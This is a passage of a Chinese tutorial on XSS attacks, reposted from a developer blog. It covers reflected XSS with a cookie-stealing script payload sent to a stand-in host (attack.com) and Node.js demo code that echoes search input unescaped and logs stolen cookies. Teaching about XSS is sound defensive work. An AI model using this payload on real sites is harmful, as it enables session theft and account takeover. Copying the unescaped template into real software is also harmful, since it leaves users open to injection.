 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/_2WeheJfK8ao3HrI4TXa8w)

> 授权转载自：乔珂力 
> 
> https://juejin.im/post/6867184627393265677

之前写过两篇文章分别介绍了 Cookie ：https://juejin.im/post/6863377752939036679 和 JSON Web Token：https://juejin.im/post/6854573220457086984，很多网站会在用户登录完毕设置 Cookie 值或者返回一个 Token，这就相当于令牌，只要拿着这张令牌就等同于证明了你是某个用户。如果防御不到位，Cookie 和 Token 很容易被 XSS 攻击窃取到，此时攻击者就可以冒充真实的用户，在网站中为所欲为了。

XSS 的全称叫跨站脚本攻击（Cross Site Scripting），攻击出现的原因一般是因为 Web 程序对用户的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

*   反射型
    
*   存储型
    
*   DOM 型
    

反射型 XSS 攻防实战
------------

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

### 攻击案例

一个常见的场景是用户在某电影网站搜索，假如请求地址是：

```
https://xxx.com/movies?q=功夫熊猫
```

在后台返回的结果页中，会显示用户搜索的电影名：

```
「功夫熊猫」的搜索结果为：
xxxxxxxxxxxxxxxxxxxxxxx
```

攻击者拼接了一个极度恶意的链接：

```
https://xxx.com/movies?q=功夫熊猫<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

如果用户点击了这个恶意链接，cookie 立马被盗。下面给出 `Node.js` 后端服务完整源码：

```
const http = require('http')const URL = require('url')// HTML 模板function renderHTML(tpl) {  return `<!DOCTYPE html><html><head><meta charset="UTF-8"/></head><body>${tpl}</body></html>`}// 路由分发器const routes = {  'GET /movies': (req, res) => { // 被攻击网站的电影搜索接口    const tpl = req.query.q      ? `<h3>「${req.query.q}」的搜索结果为：</h3>${Array(30).fill('x')}`      : `请输入搜索的电影`    res.setHeader('Set-Cookie', ['name=keliq', 'age=10'])    res.end(renderHTML(tpl))  },  'GET /cookies': (req, res) => { // 攻击者后台收集cookie的接口    console.log(req.query)    res.end()  },}function onRequest(req, res) {  const { url, method } = req  const { query, pathname } = URL.parse(url, true) // 解析 url  Object.assign(req, { query, path: pathname }) // 并把 query 和 pathname 参数扩展到 req 对象  const route = routes[[method, pathname].join(' ')] // 获取路由处理函数（策略模式）  if (route) return route(req, res)  res.statusCode = 404  res.end('Not Found')}http.createServer(onRequest).listen(3000) // 被攻击的网站http.createServer(onRequest).listen(4000) // 攻击者收集cookie的服务器
```
